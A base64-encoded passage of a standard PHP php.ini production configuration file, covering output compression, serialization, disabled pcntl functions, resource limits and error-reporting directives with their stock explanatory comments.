ZGl0aW9uLgo7IE5vdGU6IFlvdSBuZWVkIHRvIHVzZSB6bGliLm91dHB1dF9oYW5kbGVyIGluc3RlYWQgb2YgdGhlIHN0YW5kYXJkCjsgICBvdXRwdXRfaGFuZGxlciwgb3Igb3RoZXJ3aXNlIHRoZSBvdXRwdXQgd2lsbCBiZSBjb3JydXB0ZWQuCjsgaHR0cDovL3BocC5uZXQvemxpYi5vdXRwdXQtY29tcHJlc3Npb24KemxpYi5vdXRwdXRfY29tcHJlc3Npb24gPSBPZmYKCjsgaHR0cDovL3BocC5uZXQvemxpYi5vdXRwdXQtY29tcHJlc3Npb24tbGV2ZWwKO3psaWIub3V0cHV0X2NvbXByZXNzaW9uX2xldmVsID0gLTEKCjsgWW91IGNhbm5vdCBzcGVjaWZ5IGFkZGl0aW9uYWwgb3V0cHV0IGhhbmRsZXJzIGlmIHpsaWIub3V0cHV0X2NvbXByZXNzaW9uCjsgaXMgYWN0aXZhdGVkIGhlcmUuIFRoaXMgc2V0dGluZyBkb2VzIHRoZSBzYW1lIGFzIG91dHB1dF9oYW5kbGVyIGJ1dCBpbgo7IGEgZGlmZmVyZW50IG9yZGVyLgo7IGh0dHA6Ly9waHAubmV0L3psaWIub3V0cHV0LWhhbmRsZXIKO3psaWIub3V0cHV0X2hhbmRsZXIgPQoKOyBJbXBsaWNpdCBmbHVzaCB0ZWxscyBQSFAgdG8gdGVsbCB0aGUgb3V0cHV0IGxheWVyIHRvIGZsdXNoIGl0c2VsZgo7IGF1dG9tYXRpY2FsbHkgYWZ0ZXIgZXZlcnkgb3V0cHV0IGJsb2NrLiAgVGhpcyBpcyBlcXVpdmFsZW50IHRvIGNhbGxpbmcgdGhlCjsgUEhQIGZ1bmN0aW9uIGZsdXNoKCkgYWZ0ZXIgZWFjaCBhbmQgZXZlcnkgY2FsbCB0byBwcmludCgpIG9yIGVjaG8oKSBhbmQgZWFjaAo7IGFuZCBldmVyeSBIVE1MIGJsb2NrLiAgVHVybmluZyB0aGlzIG9wdGlvbiBvbiBoYXMgc2VyaW91cyBwZXJmb3JtYW5jZQo7IGltcGxpY2F0aW9ucyBhbmQgaXMgZ2VuZXJhbGx5IHJlY29tbWVuZGVkIGZvciBkZWJ1Z2dpbmcgcHVycG9zZXMgb25seS4KOyBodHRwOi8vcGhwLm5ldC9pbXBsaWNpdC1mbHVzaAo7IE5vdGU6IFRoaXMgZGlyZWN0aXZlIGlzIGhhcmRjb2RlZCB0byBPbiBmb3IgdGhlIENMSSBTQVBJCmltcGxpY2l0X2ZsdXNoID0gT2ZmCgo7IFRoZSB1bnNlcmlhbGl6ZSBjYWxsYmFjayBmdW5jdGlvbiB3aWxsIGJlIGNhbGxlZCAod2l0aCB0aGUgdW5kZWZpbmVkIGNsYXNzJwo7IG5hbWUgYXMgcGFyYW1ldGVyKSwgaWYgdGhlIHVuc2VyaWFsaXplciBmaW5kcyBhbiB1bmRlZmluZWQgY2xhc3MKOyB3aGljaCBzaG91bGQgYmUgaW5zdGFudGlhdGVkLiBBIHdhcm5pbmcgYXBwZWFycyBpZiB0aGUgc3BlY2lmaWVkIGZ1bmN0aW9uIGlzCjsgbm90IGRlZmluZWQsIG9yIGlmIHRoZSBmdW5jdGlvbiBkb2Vzbid0IGluY2x1ZGUvaW1wbGVtZW50IHRoZSBtaXNzaW5nIGNsYXNzLgo7IFNvIG9ubHkgc2V0IHRoaXMgZW50cnksIGlmIHlvdSByZWFsbHkgd2FudCB0byBpbXBsZW1lbnQgc3VjaCBhCjsgY2FsbGJhY2stZnVuY3Rpb24uCnVuc2VyaWFsaXplX2NhbGxiYWNrX2Z1bmMgPQoKOyBUaGUgdW5zZXJpYWxpemVfbWF4X2RlcHRoIHNwZWNpZmllcyB0aGUgZGVmYXVsdCBkZXB0aCBsaW1pdCBmb3IgdW5zZXJpYWxpemVkCjsgc3RydWN0dXJlcy4gU2V0dGluZyB0aGUgZGVwdGggbGltaXQgdG9vIGhpZ2ggbWF5IHJlc3VsdCBpbiBzdGFjayBvdmVyZmxvd3MKOyBkdXJpbmcgdW5zZXJpYWxpemF0aW9uLiBUaGUgdW5zZXJpYWxpemVfbWF4X2RlcHRoIGluaSBzZXR0aW5nIGNhbiBiZQo7IG92ZXJyaWRkZW4gYnkgdGhlIG1heF9kZXB0aCBvcHRpb24gb24gaW5kaXZpZHVhbCB1bnNlcmlhbGl6ZSgpIGNhbGxzLgo7IEEgdmFsdWUgb2YgMCBkaXNhYmxlcyB0aGUgZGVwdGggbGltaXQuCjt1bnNlcmlhbGl6ZV9tYXhfZGVwdGggPSA0MDk2Cgo7IFdoZW4gZmxvYXRzICYgZG91YmxlcyBhcmUgc2VyaWFsaXplZCwgc3RvcmUgc2VyaWFsaXplX3ByZWNpc2lvbiBzaWduaWZpY2FudAo7IGRpZ2l0cyBhZnRlciB0aGUgZmxvYXRpbmcgcG9pbnQuIFRoZSBkZWZhdWx0IHZhbHVlIGVuc3VyZXMgdGhhdCB3aGVuIGZsb2F0cwo7IGFyZSBkZWNvZGVkIHdpdGggdW5zZXJpYWxpemUsIHRoZSBkYXRhIHdpbGwgcmVtYWluIHRoZSBzYW1lLgo7IFRoZSB2YWx1ZSBpcyBhbHNvIHVzZWQgZm9yIGpzb25fZW5jb2RlIHdoZW4gZW5jb2RpbmcgZG91YmxlIHZhbHVlcy4KOyBJZiAtMSBpcyB1c2VkLCB0aGVuIGR0b2EgbW9kZSAwIGlzIHVzZWQgd2hpY2ggYXV0b21hdGljYWxseSBzZWxlY3QgdGhlIGJlc3QKOyBwcmVjaXNpb24uCnNlcmlhbGl6ZV9wcmVjaXNpb24gPSAtMQoKOyBvcGVuX2Jhc2VkaXIsIGlmIHNldCwgbGltaXRzIGFsbCBmaWxlIG9wZXJhdGlvbnMgdG8gdGhlIGRlZmluZWQgZGlyZWN0b3J5CjsgYW5kIGJlbG93LiAgVGhpcyBkaXJlY3RpdmUgbWFrZXMgbW9zdCBzZW5zZSBpZiB1c2VkIGluIGEgcGVyLWRpcmVjdG9yeQo7IG9yIHBlci12aXJ0dWFsaG9zdCB3ZWIgc2VydmVyIGNvbmZpZ3VyYXRpb24gZmlsZS4KOyBOb3RlOiBkaXNhYmxlcyB0aGUgcmVhbHBhdGggY2FjaGUKOyBodHRwOi8vcGhwLm5ldC9vcGVuLWJhc2VkaXIKO29wZW5fYmFzZWRpciA9Cgo7IFRoaXMgZGlyZWN0aXZlIGFsbG93cyB5b3UgdG8gZGlzYWJsZSBjZXJ0YWluIGZ1bmN0aW9ucyBmb3Igc2VjdXJpdHkgcmVhc29ucy4KOyBJdCByZWNlaXZlcyBhIGNvbW1hLWRlbGltaXRlZCBsaXN0IG9mIGZ1bmN0aW9uIG5hbWVzLgo7IGh0dHA6Ly9waHAubmV0L2Rpc2FibGUtZnVuY3Rpb25zCmRpc2FibGVfZnVuY3Rpb25zID0gcGNudGxfYWxhcm0scGNudGxfZm9yayxwY250bF93YWl0cGlkLHBjbnRsX3dhaXQscGNudGxfd2lmZXhpdGVkLHBjbnRsX3dpZnN0b3BwZWQscGNudGxfd2lmc2lnbmFsZWQscGNudGxfd2lmY29udGludWVkLHBjbnRsX3dleGl0c3RhdHVzLHBjbnRsX3d0ZXJtc2lnLHBjbnRsX3dzdG9wc2lnLHBjbnRsX3NpZ25hbCxwY250bF9zaWduYWxfZ2V0X2hhbmRsZXIscGNudGxfc2lnbmFsX2Rpc3BhdGNoLHBjbnRsX2dldF9sYXN0X2Vycm9yLHBjbnRsX3N0cmVycm9yLHBjbnRsX3NpZ3Byb2NtYXNrLHBjbnRsX3NpZ3dhaXRpbmZvLHBjbnRsX3NpZ3RpbWVkd2FpdCxwY250bF9leGVjLHBjbnRsX2dldHByaW9yaXR5LHBjbnRsX3NldHByaW9yaXR5LHBjbnRsX2FzeW5jX3NpZ25hbHMscGNudGxfdW5zaGFyZSwKCjsgVGhpcyBkaXJlY3RpdmUgYWxsb3dzIHlvdSB0byBkaXNhYmxlIGNlcnRhaW4gY2xhc3NlcyBmb3Igc2VjdXJpdHkgcmVhc29ucy4KOyBJdCByZWNlaXZlcyBhIGNvbW1hLWRlbGltaXRlZCBsaXN0IG9mIGNsYXNzIG5hbWVzLgo7IGh0dHA6Ly9waHAubmV0L2Rpc2FibGUtY2xhc3NlcwpkaXNhYmxlX2NsYXNzZXMgPQoKOyBDb2xvcnMgZm9yIFN5bnRheCBIaWdobGlnaHRpbmcgbW9kZS4gIEFueXRoaW5nIHRoYXQncyBhY2NlcHRhYmxlIGluCjsgPHNwYW4gc3R5bGU9ImNvbG9yOiA/Pz8/Pz8/Ij4gd291bGQgd29yay4KOyBodHRwOi8vcGhwLm5ldC9zeW50YXgtaGlnaGxpZ2h0aW5nCjtoaWdobGlnaHQuc3RyaW5nICA9ICNERDAwMDAKO2hpZ2hsaWdodC5jb21tZW50ID0gI0ZGOTkwMAo7aGlnaGxpZ2h0LmtleXdvcmQgPSAjMDA3NzAwCjtoaWdobGlnaHQuZGVmYXVsdCA9ICMwMDAwQkIKO2hpZ2hsaWdodC5odG1sICAgID0gIzAwMDAwMAoKOyBJZiBlbmFibGVkLCB0aGUgcmVxdWVzdCB3aWxsIGJlIGFsbG93ZWQgdG8gY29tcGxldGUgZXZlbiBpZiB0aGUgdXNlciBhYm9ydHMKOyB0aGUgcmVxdWVzdC4gQ29uc2lkZXIgZW5hYmxpbmcgaXQgaWYgZXhlY3V0aW5nIGxvbmcgcmVxdWVzdHMsIHdoaWNoIG1heSBlbmQgdXAKOyBiZWluZyBpbnRlcnJ1cHRlZCBieSB0aGUgdXNlciBvciBhIGJyb3dzZXIgdGltaW5nIG91dC4gUEhQJ3MgZGVmYXVsdCBiZWhhdmlvcgo7IGlzIHRvIGRpc2FibGUgdGhpcyBmZWF0dXJlLgo7IGh0dHA6Ly9waHAubmV0L2lnbm9yZS11c2VyLWFib3J0CjtpZ25vcmVfdXNlcl9hYm9ydCA9IE9uCgo7IERldGVybWluZXMgdGhlIHNpemUgb2YgdGhlIHJlYWxwYXRoIGNhY2hlIHRvIGJlIHVzZWQgYnkgUEhQLiBUaGlzIHZhbHVlIHNob3VsZAo7IGJlIGluY3JlYXNlZCBvbiBzeXN0ZW1zIHdoZXJlIFBIUCBvcGVucyBtYW55IGZpbGVzIHRvIHJlZmxlY3QgdGhlIHF1YW50aXR5IG9mCjsgdGhlIGZpbGUgb3BlcmF0aW9ucyBwZXJmb3JtZWQuCjsgTm90ZTogaWYgb3Blbl9iYXNlZGlyIGlzIHNldCwgdGhlIGNhY2hlIGlzIGRpc2FibGVkCjsgaHR0cDovL3BocC5uZXQvcmVhbHBhdGgtY2FjaGUtc2l6ZQo7cmVhbHBhdGhfY2FjaGVfc2l6ZSA9IDQwOTZrCgo7IER1cmF0aW9uIG9mIHRpbWUsIGluIHNlY29uZHMgZm9yIHdoaWNoIHRvIGNhY2hlIHJlYWxwYXRoIGluZm9ybWF0aW9uIGZvciBhIGdpdmVuCjsgZmlsZSBvciBkaXJlY3RvcnkuIEZvciBzeXN0ZW1zIHdpdGggcmFyZWx5IGNoYW5naW5nIGZpbGVzLCBjb25zaWRlciBpbmNyZWFzaW5nIHRoaXMKOyB2YWx1ZS4KOyBodHRwOi8vcGhwLm5ldC9yZWFscGF0aC1jYWNoZS10dGwKO3JlYWxwYXRoX2NhY2hlX3R0bCA9IDEyMAoKOyBFbmFibGVzIG9yIGRpc2FibGVzIHRoZSBjaXJjdWxhciByZWZlcmVuY2UgY29sbGVjdG9yLgo7IGh0dHA6Ly9waHAubmV0L3plbmQuZW5hYmxlLWdjCnplbmQuZW5hYmxlX2djID0gT24KCjsgSWYgZW5hYmxlZCwgc2NyaXB0cyBtYXkgYmUgd3JpdHRlbiBpbiBlbmNvZGluZ3MgdGhhdCBhcmUgaW5jb21wYXRpYmxlIHdpdGgKOyB0aGUgc2Nhbm5lci4gIENQOTM2LCBCaWc1LCBDUDk0OSBhbmQgU2hpZnRfSklTIGFyZSB0aGUgZXhhbXBsZXMgb2Ygc3VjaAo7IGVuY29kaW5ncy4gIFRvIHVzZSB0aGlzIGZlYXR1cmUsIG1ic3RyaW5nIGV4dGVuc2lvbiBtdXN0IGJlIGVuYWJsZWQuCjsgRGVmYXVsdDogT2ZmCjt6ZW5kLm11bHRpYnl0ZSA9IE9mZgoKOyBBbGxvd3MgdG8gc2V0IHRoZSBkZWZhdWx0IGVuY29kaW5nIGZvciB0aGUgc2NyaXB0cy4gIFRoaXMgdmFsdWUgd2lsbCBiZSB1c2VkCjsgdW5sZXNzICJkZWNsYXJlKGVuY29kaW5nPS4uLikiIGRpcmVjdGl2ZSBhcHBlYXJzIGF0IHRoZSB0b3Agb2YgdGhlIHNjcmlwdC4KOyBPbmx5IGFmZmVjdHMgaWYgemVuZC5tdWx0aWJ5dGUgaXMgc2V0Lgo7IERlZmF1bHQ6ICIiCjt6ZW5kLnNjcmlwdF9lbmNvZGluZyA9Cgo7IEFsbG93cyB0byBpbmNsdWRlIG9yIGV4Y2x1ZGUgYXJndW1lbnRzIGZyb20gc3RhY2sgdHJhY2VzIGdlbmVyYXRlZCBmb3IgZXhjZXB0aW9ucwo7IERlZmF1bHQ6IE9mZgo7IEluIHByb2R1Y3Rpb24sIGl0IGlzIHJlY29tbWVuZGVkIHRvIHR1cm4gdGhpcyBzZXR0aW5nIG9uIHRvIHByb2hpYml0IHRoZSBvdXRwdXQgCjsgb2Ygc2Vuc2l0aXZlIGluZm9ybWF0aW9uIGluIHN0YWNrIHRyYWNlcwp6ZW5kLmV4Y2VwdGlvbl9pZ25vcmVfYXJncyA9IE9uCgo7Ozs7Ozs7Ozs7Ozs7Ozs7Owo7IE1pc2NlbGxhbmVvdXMgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7OwoKOyBEZWNpZGVzIHdoZXRoZXIgUEhQIG1heSBleHBvc2UgdGhlIGZhY3QgdGhhdCBpdCBpcyBpbnN0YWxsZWQgb24gdGhlIHNlcnZlcgo7IChlLmcuIGJ5IGFkZGluZyBpdHMgc2lnbmF0dXJlIHRvIHRoZSBXZWIgc2VydmVyIGhlYWRlcikuICBJdCBpcyBubyBzZWN1cml0eQo7IHRocmVhdCBpbiBhbnkgd2F5LCBidXQgaXQgbWFrZXMgaXQgcG9zc2libGUgdG8gZGV0ZXJtaW5lIHdoZXRoZXIgeW91IHVzZSBQSFAKOyBvbiB5b3VyIHNlcnZlciBvciBub3QuCjsgaHR0cDovL3BocC5uZXQvZXhwb3NlLXBocApleHBvc2VfcGhwID0gT2ZmCgo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7CjsgUmVzb3VyY2UgTGltaXRzIDsKOzs7Ozs7Ozs7Ozs7Ozs7Ozs7OwoKOyBNYXhpbXVtIGV4ZWN1dGlvbiB0aW1lIG9mIGVhY2ggc2NyaXB0LCBpbiBzZWNvbmRzCjsgaHR0cDovL3BocC5uZXQvbWF4LWV4ZWN1dGlvbi10aW1lCjsgTm90ZTogVGhpcyBkaXJlY3RpdmUgaXMgaGFyZGNvZGVkIHRvIDAgZm9yIHRoZSBDTEkgU0FQSQptYXhfZXhlY3V0aW9uX3RpbWUgPSAzMAoKOyBNYXhpbXVtIGFtb3VudCBvZiB0aW1lIGVhY2ggc2NyaXB0IG1heSBzcGVuZCBwYXJzaW5nIHJlcXVlc3QgZGF0YS4gSXQncyBhIGdvb2QKOyBpZGVhIHRvIGxpbWl0IHRoaXMgdGltZSBvbiBwcm9kdWN0aW9ucyBzZXJ2ZXJzIGluIG9yZGVyIHRvIGVsaW1pbmF0ZSB1bmV4cGVjdGVkbHkKOyBsb25nIHJ1bm5pbmcgc2NyaXB0cy4KOyBOb3RlOiBUaGlzIGRpcmVjdGl2ZSBpcyBoYXJkY29kZWQgdG8gLTEgZm9yIHRoZSBDTEkgU0FQSQo7IERlZmF1bHQgVmFsdWU6IC0xIChVbmxpbWl0ZWQpCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IDYwICg2MCBzZWNvbmRzKQo7IFByb2R1Y3Rpb24gVmFsdWU6IDYwICg2MCBzZWNvbmRzKQo7IGh0dHA6Ly9waHAubmV0L21heC1pbnB1dC10aW1lCm1heF9pbnB1dF90aW1lID0gNjAKCjsgTWF4aW11bSBpbnB1dCB2YXJpYWJsZSBuZXN0aW5nIGxldmVsCjsgaHR0cDovL3BocC5uZXQvbWF4LWlucHV0LW5lc3RpbmctbGV2ZWwKO21heF9pbnB1dF9uZXN0aW5nX2xldmVsID0gNjQKCjsgSG93IG1hbnkgR0VUL1BPU1QvQ09PS0lFIGlucHV0IHZhcmlhYmxlcyBtYXkgYmUgYWNjZXB0ZWQKO21heF9pbnB1dF92YXJzID0gMTAwMAoKOyBNYXhpbXVtIGFtb3VudCBvZiBtZW1vcnkgYSBzY3JpcHQgbWF5IGNvbnN1bWUgKDEyOE1CKQo7IGh0dHA6Ly9waHAubmV0L21lbW9yeS1saW1pdAptZW1vcnlfbGltaXQgPSAxMjhNCgo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBFcnJvciBoYW5kbGluZyBhbmQgbG9nZ2luZyA7Cjs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7OwoKOyBUaGlzIGRpcmVjdGl2ZSBpbmZvcm1zIFBIUCBvZiB3aGljaCBlcnJvcnMsIHdhcm5pbmdzIGFuZCBub3RpY2VzIHlvdSB3b3VsZCBsaWtlCjsgaXQgdG8gdGFrZSBhY3Rpb24gZm9yLiBUaGUgcmVjb21tZW5kZWQgd2F5IG9mIHNldHRpbmcgdmFsdWVzIGZvciB0aGlzCjsgZGlyZWN0aXZlIGlzIHRocm91Z2ggdGhlIHVzZSBvZiB0aGUgZXJyb3IgbGV2ZWwgY29uc3RhbnRzIGFuZCBiaXR3aXNlCjsgb3BlcmF0b3JzLiBUaGUgZXJyb3IgbGV2ZWwgY29uc3RhbnRzIGFyZSBiZWxvdyBoZXJlIGZvciBjb252ZW5pZW5jZSBhcyB3ZWxsIGFzCjsgc29tZSBjb21tb24gc2V0dGluZ3MgYW5kIHRoZWlyIG1lYW5pbmdzLgo7IEJ5IGRlZmF1bHQsIFBIUCBpcyBzZXQgdG8gdGFrZSBhY3Rpb24gb24gYWxsIGVycm9ycywgbm90aWNlcyBhbmQgd2FybmluZ3MgRVhDRVBUCjsgdGhvc2UgcmVsYXRlZCB0byBFX05PVElDRSBhbmQgRV9TVFJJQ1QsIHdoaWNoIHRvZ2V0aGVyIGNvdmVyIGJlc3QgcHJhY3RpY2VzIGFuZAo7IHJlY29tbWVuZGVkIGNvZGluZyBzdGFuZGFyZHMgaW4gUEhQLiBGb3IgcGVyZm9ybWFuY2UgcmVhc29ucywgdGhpcyBpcyB0aGUKOyByZWNvbW1lbmQgZXJyb3IgcmVwb3J0aW5nIHNldHRpbmcuIFlvdXIgcHJvZHVjdGlvbiBzZXJ2ZXIgc2hvdWxkbid0IGJlIHdhc3RpbmcKOyByZXNvdXJjZXMgY29tcGxhaW5pbmcgYWJvdXQgYmVzdCBwcmFjdGljZXMgYW5kIGNvZGluZyBzdGFuZGFyZHMuIFRoYXQncyB3aGF0CjsgZGV2ZWxvcG1lbnQgc2VydmVycyBhbmQgZGV2ZWxvcG1lbnQgc2V0dGluZ3MgYXJlIGZvci4KOyBOb3RlOiBUaGUgcGhwLmluaS1kZXZlbG9wbWVudCBmaWxlIGhhcyB0aGlzIHNldHRpbmcgYXMgRV9BTEwuIFRoaXMKOyBtZWFucyBpdCBwcmV0dHkgbXVjaCByZXBvcnRzIGV2ZXJ5dGhpbmcgd2hpY2ggaXMgZXhhY3RseSB3aGF0IHlvdSB3YW50IGR1cmluZwo7IGRldmVsb3BtZW50IGFuZCBlYXJseSB0ZXN0aW5nLgo7CjsgRXJyb3IgTGV2ZWwgQ29uc3RhbnRzOgo7IEVfQUxMICAgICAgICAgICAgIC0gQWxsIGVycm9ycyBhbmQgd2FybmluZ3MgKGluY2x1ZGVzIEVfU1RSSUNUIGFzIG9mIFBIUCA1LjQuMCkKOyBFX0VSUk9SICAgICAgICAgICAtIGZhdGFsIHJ1bi10aW1lIGVycm9ycwo7IEVfUkVDT1ZFUkFCTEVfRVJST1IgIC0gYWxtb3N0IGZhdGFsIHJ1bi10aW1lIGVycm9ycwo7IEVfV0FSTklORyAgICAgICAgIC0gcnVuLXRpbWUgd2FybmluZ3MgKG5vbi1mYXRhbCBlcnJvcnMpCjsgRV9QQVJTRSAgICAgICAgICAgLSBjb21waWxlLXRpbWUgcGFyc2UgZXJyb3JzCjsgRV9OT1RJQ0UgICAgICAgICAgLSBydW4tdGltZSBub3RpY2VzICh0aGVzZSBhcmUgd2FybmluZ3Mgd2hpY2ggb2Z0ZW4gcmVzdWx0CjsgICAgICAgICAgICAgICAgICAgICBmcm9tIGEgYnVnIGluIHlvdXIgY29kZSwgYnV0IGl0J3MgcG9zc2libGUgdGhhdCBpdCB3YXMKOyAgICAgICAgICAgICAgICAgICAgIGludGVudGlvbmFsIChlLmcuLCB1c2luZyBhbiB1bmluaXRpYWxpemVkIHZhcmlhYmxlIGFuZAo7ICAgICAgICAgICAgICAgICAgICAgcmVseWluZyBvbiB0aGUgZmFjdCBpdCBpcyBhdXRvbWF0aWNhbGx5IGluaXRpYWxpemVkIHRvIGFuCjsgICAgICAgICAgICAgICAgICAgICBlbXB0eSBzdHJpbmcpCjsgRV9TVFJJQ1QgICAgICAgICAgLSBydW4tdGltZSBub3RpY2VzLCBlbmFibGUgdG8gaGF2ZSBQSFAgc3VnZ2VzdCBjaGFuZ2VzCjsgICAgICAgICAgICAgICAgICAgICB0byB5b3VyIGNvZGUgd2hpY2ggd2lsbCBlbnN1cmUgdGhlIGJlc3QgaW50ZXJvcGVyYWJpbGl0eQo7ICAgICAgICAgICAgICAgICAgICAgYW5kIGZvcndhcmQgY29tcGF0aWJpbGl0eSBvZiB5b3VyIGNvZGUKOyBFX0NPUkVfRVJST1IgICAgICAtIGZhdGFsIGVycm9ycyB0aGF0IG9jY3VyIGR1cmluZyBQSFAncyBpbml0aWFsIHN0YXJ0dXAKOyBFX0NPUkVfV0FSTklORyAgICAtIHdhcm5pbmdzIChub24tZmF0YWwgZXJyb3JzKSB0aGF0IG9jY3VyIGR1cmluZyBQSFAncwo7ICAgICAgICAgICAgICAgICAgICAgaW5pdGlhbCBzdGFydHVwCjsgRV9DT01QSUxFX0VSUk9SICAgLSBmYXRhbCBjb21waWxlLXRpbWUgZXJyb3JzCjsgRV9DT01QSUxFX1dBUk5JTkcgLSBjb21waWxlLXRpbWUgd2FybmluZ3MgKG5vbi1mYXRhbCBlcnJvcnMpCjsgRV9VU0VSX0VSUk9SICAgICAgLSB1c2VyLWdlbmVyYXRlZCBlcnJvciBtZXNzYWdlCjsgRV9VU0VSX1dBUk5JTkcgICAgLSB1c2VyLWdlbmVyYXRlZCB3YXJuaW5nIG1lc3NhZ2UKOyBFX1VTRVJfTk9USUNFICAgICAtIHVzZXItZ2VuZXJhdGVkIG5vdGljZSBtZXNzYWdlCjsgRV9ERVBSRUNBVEVEICAgICAgLSB3YXJuIGFib3V0IGNvZGUgdGhhdCB3aWxsIG5vdCB3b3JrIGluIGZ1dHVyZSB2ZXJzaW9ucwo7ICAgICAgICAgICAgICAgICAgICAgb2YgUEhQCjsgRV9VU0VSX0RFUFJFQ0FURUQgLSB1c2VyLWdlbmVyYXRlZCBkZXByZWNhdGlvbiB3YXJuaW5ncwo7CjsgQ29tbW9uIFZhbHVlczoKOyAgIEVfQUxMIChTaG93IGFsbCBlcnJvcnMsIHdhcm5pbmdzIGFuZCBub3RpY2VzIGluY2x1ZGluZyBjb2Rpbmcgc3RhbmRhcmRzLikKOyAgIEVfQUxMICYgfkVfTk9USUNFICAoU2hvdyBhbGwgZXJyb3JzLCBleGNlcHQgZm9yIG5vdGljZXMpCjsgICBFX0FMTCAmIH5FX05PVElDRSAmIH5FX1NUUklDVCAgKFNob3cgYWxsIGVycm9ycywgZXhjZXB0IGZvciBub3RpY2VzIGFuZCBjb2Rpbmcgc3RhbmRhcmRzIHdhcm5pbmdzLikKOyAgIEVfQ09NUElMRV9FUlJPUnxFX1JFQ09WRVJBQkxFX0VSUk9SfEVfRVJST1J8RV9DT1JFX0VSUk9SICAoU2hvdyBvbmx5IGVycm9ycykKOyBEZWZhdWx0IFZhbHVlOiBFX0FMTCAmIH5FX05PVElDRSAmIH5FX1NUUklDVCAmIH5FX0RFUFJFQ0FURUQKOyBEZXZlbG9wbWVudCBWYWx1ZTogRV9BTEwKOyBQcm9kdWN0aW9uIFZhbHVlOiBFX0FMTCAmIH5FX0RFUFJFQ0FURUQgJiB+RV9TVFJJQ1QKOyBodHRwOi8vcGhwLm5ldC9lcnJvci1yZXBvcnRpbmcKZXJyb3JfcmVwb3J0aW5nID0gRV9BTEwgJiB+RV9ERVBSRUNBVEVEICYgfkVfU1RSSUNUCgo7IFRoaXMgZGlyZWN0aXZlIGNvbnRyb2xzIHdoZXRoZXIgb3Igbm90IGFuZCB3aGVyZSBQSFAgd2lsbCBvdXRwdXQgZXJyb3JzLAo7IG5vdGljZXMgYW5kIHdhcm5pbmdzIHRvby4gRXJyb3Igb3V0cHV0IGlzIHZlcnkgdXNlZnVsIGR1cmluZyBkZXZlbG9wbWVudCwgYnV0CjsgaXQgY291bGQgYmUgdmVyeSBkYW5nZXJvdXMgaW4gcHJvZHVjdGlvbiBlbnZpcm9ubWVudHMuIERlcGVuZGluZyBvbiB0aGUgY29kZQo7IHdoaWNoIGlzIHRyaWdnZXJpbmcgdGhlIGVycm9yLCBzZW5zaXRpdmUgaW5mb3JtYXRpb24gY291bGQgcG90ZW50aWFsbHkgbGVhawo7IG91dCBvZiB5b3VyIGFwcGxpY2F0aW9uIHN1Y2ggYXMgZGF0YWJhc2UgdXNlcm5hbWVzIGFuZCBwYXNzd29yZHMgb3Igd29yc2UuCjsgRm9yIHByb2R1Y3Rpb24gZW52aXJvbm1lbnRzLCB3ZSByZWNvbW1lbmQgbG9nZ2luZyBlcnJvcnMgcmF0aGVyIHRoYW4KOyBzZW5kaW5nIHRoZW0gdG8gU1RET1VULgo7IFBvc3NpYmxlIFZhbHVlczoKOyAgIE9mZiA9IERvIG5vdCBkaXNwbGF5IGFueSBlcnJvcnMKOyAgIHN0ZGVyciA9IERpc3BsYXkgZXJyb3JzIHRvIFNUREVSUiAoYWZmZWN0cyBvbmx5IENHSS9DTEkgYmluYXJpZXMhKQo7ICAgT24gb3Igc3Rkb3V0ID0gRGlzcGxheSBlcnJvcnMgdG8gU1RET1VUCjsgRGVmYXVsdCBWYWx1ZTogT24KOyBEZXZlbG9wbWVudCBWYWx1ZTogT24KOyBQcm9kdWN0aW9uIFZhbHVlOiBPZmYKOyBodHRwOi8vcGhwLm5ldC9kaXNwbGF5LWVycm9ycwpkaXNwbGF5X2Vycm9ycyA9IE9mZgoKOyBUaGUgZGlzcGxheSBvZiBlcnJvcnMgd2hpY2ggb2NjdXIgZHVyaW5nIFBIUCdzIHN0YXJ0dXAgc2VxdWVuY2UgYXJlIGhhbmRsZWQKOyBzZXBhcmF0ZWx5IGZyb20gZGlzcGxheV9lcnJvcnMuIFBIUCdzIGRlZmF1bHQgYmVoYXZpb3IgaXMgdG8gc3VwcHJlc3MgdGhvc2UKOyBlcnJvcnMgZnJvbSBjbGllbnRzLiBUdXJuaW5nIHRoZSBkaXNwbGF5IG9mIHN0YXJ0dXAgZXJyb3JzIG9uIGNhbiBiZSB1c2VmdWwgaW4KOyBkZWJ1Z2dpbmcgY29uZmlndXJhdGlvbiBwcm9ibGVtcy4gV2Ugc3Ryb25nbHkgcmVjb21tZW5kIHlvdQo7IHNldCB0aGlzIHRvICdvZmYnIGZvciBwcm9kdWN0aW9uIHNlcnZlcnMuCjsgRGVmYXVsdCBWYWx1ZTogT2ZmCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IE9uCjsgUHJvZHVjdGlvbiBWYWx1ZTogT2ZmCjsgaHR0cDovL3BocC5uZXQvZGlzcGxheS1zdGFydHVwLWVycm9ycwpkaXNwbGF5X3N0YXJ0dXBfZXJyb3JzID0gT2ZmCgo7IEJlc2lkZXMgZGlzcGxheWluZyBlcnJvcnMsIFBIUCBjYW4gYWxzbyBsb2cgZXJyb3JzIHRvIGxvY2F0aW9ucyBzdWNoIGFzIGEKOyBzZXJ2ZXItc3BlY2lmaWMgbG9nLCBTVERFUlIsIG9yIGEgbG9jYXRpb24gc3BlY2lmaWVkIGJ5IHRoZSBlcnJvcl9sb2cKOyBkaXJlY3RpdmUgZm91bmQgYmVsb3cuIFdoaWxlIGVycm9ycyBzaG91bGQgbm90IGJlIGRpc3BsYXllZCBvbiBwcm9kdWN0aW9ucwo7IHNlcnZlcnMgdGhleSBzaG91bGQgc3RpbGwgYmUgbW9uaXRvcmVkIGFuZCBsb2dnaW5nIGlzIGEgZ3JlYXQgd2F5IHRvIGRvIHRoYXQuCjsgRGVmYXVsdCBWYWx1ZTogT2ZmCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IE9uCjsgUHJvZHVjdGlvbiBWYWx1ZTogT24KOyBodHRwOi8vcGhwLm5ldC9sb2ctZXJyb3JzCmxvZ19lcnJvcnMgPSBPbgoKOyBTZXQgbWF4aW11bSBsZW5ndGggb2YgbG9nX2Vycm9ycy4gSW4gZXJyb3JfbG9nIGluZm9ybWF0aW9uIGFib3V0IHRoZSBzb3VyY2UgaXMKOyBhZGRlZC4gVGhlIGRlZmF1bHQgaXMgMTAyNCBhbmQgMCBhbGxvd3MgdG8gbm90IGFwcGx5IGFueSBtYXhpbXVtIGxlbmd0aCBhdCBhbGwuCjsgaHR0cDov